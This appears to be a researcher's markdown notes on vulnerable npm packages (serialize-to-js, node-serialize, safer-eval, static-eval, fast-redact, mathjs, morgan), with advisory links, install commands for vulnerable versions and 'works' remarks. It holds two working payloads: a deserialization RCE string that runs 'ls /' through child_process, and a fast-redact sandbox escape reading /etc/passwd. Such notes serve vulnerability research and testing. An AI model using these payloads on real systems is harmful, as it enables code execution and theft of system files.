 
To see all versions of a package:

`npm view <package-name>`


### Serialize js 
**Lya does work**
https://snyk.io/vuln/npm:serialize-to-js:20170208
`npm i serialize-to-js@0.8`

```JavaScript
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```


### Node Serialize
**works**
https://snyk.io/test/npm/node-serialize/0.0.4

`npm install node-serialize`


### Serialize JavaScript

https://snyk.io/vuln/SNYK-JS-SERIALIZEJAVASCRIPT-570062

`npm i serialize-javascript@3.0`


### Safer Eval
**Works**
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-534901  2019-10769
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-173772  2019-10759
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-473029  2019-10760

This needs dynamic analysis first.

### Safe Eval
https://snyk.io/vuln/npm:safe-eval:20170830 2017-16088
https://www.npmjs.com/advisories/1021

### Static Eval
**Works**
`npm i static-eval` (<2.0.0)

https://snyk.io/vuln/npm:static-eval:20171016    2017-16226
https://snyk.io/vuln/SNYK-JS-STATICEVAL-173693   ---

https://maustin.net/articles/2017-10/static_eval


### Fast Redact

https://itnext.io/how-i-exploited-a-remote-code-execution-vulnerability-in-fast-redact-9e69fa35572f

```
const buffer = Buffer.allocUnsafe(8192)
process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096)
console.log(buffer.toString())
```

### MathJS

https://snyk.io/vuln/npm:mathjs:20171118-1   2017-1001003
https://snyk.io/vuln/npm:mathjs:20170331     2017-0331s
https://snyk.io/vuln/npm:mathjs:20171118     2017-1001002
https://snyk.io/vuln/npm:mathjs:20170402    2017-0402s
https://snyk.io/vuln/npm:mathjs:20170527     2017-0527



Helper post:
https://capacitorset.github.io/mathjs/

### Morgan 

https://snyk.io/vuln/SNYK-JS-MORGAN-72579 2019-5413

PoC:
https://hackerone.com/reports/390881

### Other Notes

(For Nikos: https://github.com/bkimminich/juice-shop/issues/269)
